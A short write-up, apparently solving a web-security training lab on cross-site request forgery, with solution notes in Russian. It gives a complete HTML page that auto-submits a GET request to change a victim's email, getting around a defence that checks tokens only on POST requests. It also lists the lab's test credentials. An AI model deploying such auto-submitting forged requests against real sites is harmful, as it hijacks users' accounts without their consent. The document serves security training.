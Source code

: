 # CSRF where token validation depends on request method
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

## Решение
Вместо POST-запроса отправляю GET-запрос:
```
<html>
<body>
    <form action="https://0aed001404e7ce508319412700c30097.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Deliver exploit to victim -> задание выполнено.
